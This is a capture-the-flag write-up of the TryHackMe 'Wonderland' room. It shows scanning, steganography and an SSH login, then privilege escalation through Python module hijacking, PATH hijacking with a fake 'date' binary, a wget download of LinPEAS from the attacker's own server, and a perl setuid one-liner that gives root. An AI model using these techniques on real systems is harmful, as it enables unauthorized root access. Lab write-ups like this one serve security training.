

# Wonderland Writeup - Medium 

This is the "Wonderland" Room on <a href="https://tryhackme.com">TryHackMe.com</a>. 

**URL:** https://tryhackme.com/room/wonderland

**Author:** NinjaJc01 (https://tryhackme.com/p/NinjaJc01)


# Table of content
- [Tools used](#tools-used)
- [Lets get going:](#lets-get-going)
  - [What are we dealing with?](#what-are-we-dealing-with)
  - [Enumerating the website](#enumerating-the-website)
  - [Pictures are full of secrets](#pictures-are-full-of-secrets)
  - [Allice -> Rabbit](#allice---rabbit)
  - [Rabbit -> Hatter](#rabbit---hatter)
  - [Root.txt](#roottxt)
  - [User.txt](#usertxt)


# Tools used:
- Nmap (https://nmap.org/)
- gobuster (https://github.com/OJ/gobuster)
- steghide (http://steghide.sourceforge.net/)
- gtfobins (https://gtfobins.github.io/)
- LinPEAS (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)


# Lets get going:

## What are we dealing with?
---
Once you've deployed the machine, it's always good to run a nmap scan. So that's what we'll do. I like to save the IP as a variable, so you can use $IP on your machine. Can be done the following way: ```export IP=xx.xxx.xxx.xx```
```bash
└─$ nmap -sC -sV $IP -oN nmapscan
```
When the scan is complete, we get a result looking something like <a href="nmapscan">this</a>.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 22:55 CEST
Nmap scan report for 10.10.162.25
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.29 seconds
   
```
We're able to see that port 80 and 22 is open. Which means there is a webserver and a ssh server running.

First we'll visit the website. It looks like this.


## Enumerating the website 
---
Another good tool to run when you're dealing with a website is gobuster.

```bash
└─$ gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-scan
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.162.25/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/24 23:04:58 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/r                    (Status: 301) [Size: 0] [--> r/]  
/poem                 (Status: 301) [Size: 0] [--> poem/]
```

After getting the result, we find 2 pages which is "hidden". After looking on both the /r page and the /poem page, i didn't find anything interesting. Only some quotes. The sourcecode of both pages doesn't either contain anything out of the ordinary.  
## Pictures are full of secrets
---
Going back to the front page. Maybe the picture is containing something interesting. We'll download the picture to our local machine.

```bash
└─$ wget "http://IP/img/white_rabbit_1.jpg"
```
Then we'll run a tool called ``steghide`` to look for possible hidden files in the picture.

```bash
steghide extract -sf white_rabbit_1.jpg
```

</img>

Steghide was able to extract a file called **hint.txt**!

After printing the content of **hint.txt** (`` cat hint.txt ``), we'll find the hint "follow the r a b b i t".

I didn't know what that could mean. But after thinking for a bit, i remembered that the gobuster scan detected a page called "r". After adding a, ``a`` to the url ``http://IP/r/a/`` i would a find another quote, and after adding the word "rabbit" to the url ``http://IP/r/a/b/b/i/t/`` i would find another picture and some text. I decided to look in the sourcecode and boom, there was some credentials to the user "alice" on the ssh server.

## Allice -> Rabbit
---

I successfully logged in with the credentials. In the home directory of alice was a python script and a "root.txt" file. Obviously i didn't have access to read the root.txt, but i had access to create, read and run python scripts.  

There was nothing interesting in the python script, besides it imported a relative path "random", which can be exploited.

```python
import random 
poem = """The sun was shining on the sea,.....
....."""
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

I decided to try to spawn a shell, by creating a file called ``random.py`` in the same directory as the file. The script would eventuelly run my ``random.py`` script, as it imported ``random``.
```python
import pty                                                                                            
pty.spawn("/bin/bash")
```

Looking in the /home/ directory, we can see there is 3 users on this machine ``rabbit``, ``hatter`` & ``alice``.
I ran the script, but with ``sudo -u rabbit`` in hope of I changing to the rabbit user.

```bash
└─$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
And boom, i'm now the user "rabbit". Choosing the user rabbit instead of hatter is just a guess, you can try with both, but it's only rabbit that will work.

## Rabbit -> Hatter
---

After listing the files in the rabbit home folder, i can see there is a executable file called "teaParty". Running it, just failes. There wasn't any program on the machine (which i know) i could debug with, so i decided to transfer the file to my own machine.

But since i didn't know the password to the rabbit user, i had to copy the executeable file to a folder which alice also had access to. I chose to copy it to ``/dev/shm``.
```bash
└─$ cp teaParty /dev/shm/teaParty 
```

Afterwards i was able to transfer the file from the machine to my local machine using the following command on my machine:
````bash
└─$ scp -r alice@IP:/dev/shm/teaParty teaParty
````

I could now ``strings`` or use ``cutter`` to debug the program. I chose to use ``strings`` to being with, and it worked fine. I found ```/bin/echo -n 'Probably by ' && date --date='next hour' -R``` on one of the lines, which is the code the executable file is trying to run. ``date`` is also a relative path, so it could be exploited similar to the ````random.py```` exploit.

I created a file called ``` date``` with the content:
```
/bin/bash
```

I marked the file as an executable with the command ```chmod +x date```.

Running the file now will not work, since the file is not a python script like the ``random`` one. I had to change the path enviroment variable.
I did by using the following command:
````bash
└─$ export PATH=/home/rabbit:$PATH
````
Running the file now made me the user ``hatter``. In the ``hatter`` home directory there was a ``password.txt`` file containing a password file. Using the ``id`` command told me i still had the rabbit user gid. I chose trying sshing to the user ``hatter`` using the password from the ``password.txt`` file. It worked!

````bash
└─$ su hatter
````
## Root.txt
---


But i haven't found any flag yet. There wasn't something obvious i could use to escalate my privileges. So i decided to use the script ``linpeas.sh``. I downloaded the script on the machine by spinning up a webserver on my local machine and then using `wget` on the target machine.

````bash
└─$ python -m SimpleHTTPServer 2000
````
Remember that the ````linpeas.sh```` script has to be in the folder you're running this command in.


Target machine:
````bash
└─$ wget "http://your_tryhackme_ip:2000/linpeas.sh
````
You can find your tryhackme ip using the command ```ip addr show tun0``` or on the tryhackme website.

I downloaded the file into the ``/dev/shm`` folder, marked it as an executable ``chmod +x linpeas.sh`` and ran it ``./linpeas.sh``. 

Linpeas returned with a lot of information, but only this was interesting for me.
```
....
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
.....
```
Using <a href="https://gtfobins.github.io/gtfobins/perl/">gftobins</a> i could find a exploit that would grant me root using perl. I ran the Capabilities exploit.
````bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
````
And it worked! I was now root. I could now ```cat``` the ```root.txt``` file that was in the ``/home/allice`` folder.

````bash
└─$ cat /home/allice/root.txt
thm{******************************* at!}
````
I had a lot of trouble running the perl command at the beginning, until i noticed that my user gid was the rabbit user. That's why i needed to ssh into the ``hatter`` user with the password from the ``password.txt`` i found earlier.


## User.txt
---

But i hadn't found the user.txt flag. I tried running some commands, but nothing came up. I checked the hint on the TryHackMe website, which said, that everything was upside down. I checked the root folder, but i was only allowed to run and read commands, as long as i knew the name of the file. But as we know, we had to find a file called ``user.txt``. So i tried printing the file "user.txt" from the root directory and it worked. 
````bash
└─$ cat /root/user.txt
thm{*************** !}
````
Everything is literally upside down.